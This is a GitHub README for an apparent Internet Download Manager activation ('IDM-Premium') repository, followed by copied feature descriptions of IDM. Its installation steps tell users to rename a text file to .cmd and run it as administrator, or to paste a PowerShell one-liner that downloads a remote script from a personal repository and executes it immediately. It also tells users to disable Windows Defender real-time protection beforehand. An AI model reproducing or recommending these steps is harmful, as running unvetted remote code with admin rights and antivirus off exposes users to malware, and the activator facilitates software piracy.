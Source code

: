 ### Internet Download Manager (IDM) is a tool to increase download speeds by up to 5 times, resume and schedule downloads.

## Table of contents

- [Installation process](#installation-process)
- [Note](#note)
- [Supported Browser](#all-popular-browsers-are-supported)
- [Credits](#credits)
- [licence](#license)

# Installation Process

- First Of All [Visit](https://www.internetdownloadmanager.com/) IDM Official Site & Download IDM.exe & Then Install It.

- Then [Download](IAS_0.7_CRC32_58F0EACC.txt) This File.

- Open text file and Type "your name" [Demo](./screenshots/Screenshot_NameChange.png)

- Then Rename The File 'IAS_0.7_CRC32_58F0EACC' As IAS_0.7_CRC32_58F0EACC.cmd

- Run The File (run as administrator)
- You will see the activation options, and follow onscreen instructions.


## Installation Process With Powershell

- On Windows 10-11 open Powershell or Terminal as administrator 

- Copy-paste the below code and press enter

```bash
iwr -useb https://raw.githubusercontent.com/nymurbd/IDM-Premium/main/IAS_0.7_CRC32_58F0EACC.ps1 | iex
```
- You will see the activation options, and follow onscreen instructions.

## Note

- Go to Windows defender
- Turn off Real-Time Protection (After install .Cmd file Turn On ) ![Alt text](screenshots/Screenshot%20windows%20defender.png)

## Download faster and more reliably

Install Internet Download Manager (IDM) to stop waiting for your downloads. You will be truly amazed how fast IDM downloads your files. IDM will also repair broken and resume interrupted downloads due to lost connections, network problems, computer shutdowns, or unexpected power outages.

## All popular browsers are supported

IDM integrates seamlessly into Google Chrome, FireFox, Microsoft Edge, Opera, Safari, Internet Explorer, AOL, MSN, Maxthon and all other popular browsers. We develop browser extensions since 1999, and we have the best engineering solutions available today. IDM offers the installation of its extensions for Chrome, Firefox, old and new Edge, Opera and other browsers.

- Install IDM extension for [Google Chrome](https://chrome.google.com/webstore/detail/idm-integration-module/ngpampappnmepgilojfohadhhmbhlaek)
- Install IDM add-on for [Mozilla Firefox](https://addons.mozilla.org/en-US/firefox/addon/tonec-idm-integration-module/)
- Install IDM extension for [Microsoft Edge](https://microsoftedge.microsoft.com/addons/detail/idm-integration-module/llbjbkhnmlidjebalopleeepgdfgcpec)

You need always to keep IDM extensions installed and enabled in browsers to take over downloads from the browsers and to have IDM's right click menu items! If you have any problem, first check that "IDM integration module" extension is installed and enabled in your browser.

# Download selected files with one click

When several links are selected with a mouse in a browser, IDM will show "Download with IDM" button. You can also minimize this button in "Options→General tab→Customize download panel in browsers" IDM dialog .

# Download files from your favorite web sites

After installing "IDM integration module" browser extension, just continue surfing the Internet, and you will be amazed how easy is to download everything you want from your favorite web sites with IDM video download panel.

# Built-in Scheduler

Internet Download Manager can connect to the Internet at a set time, download the files you want, disconnect, or shut down your computer when it's done. You can also synchronize changes using periodic synchronization of files. It's possible to create and schedule several download queues for downloading or synchronization.

# Download categories

Internet Download Manager can be used to organize downloads automatically using defined download categories. You can add your custom categories for some file types or specific sites.

# Customizable Interface

You may choose the order, buttons and columns to appear on the main IDM window. There are several different skins for the toolbar with different button styles. All skins can be downloaded from IDM home site. Also users can design their own skins. Also you can choose the light or dark IDM theme.

# Credits

[SCRIPT](Credits.md)

**Blog written by** [@TELEKIIT](https://www.telekiit.me/)

# License
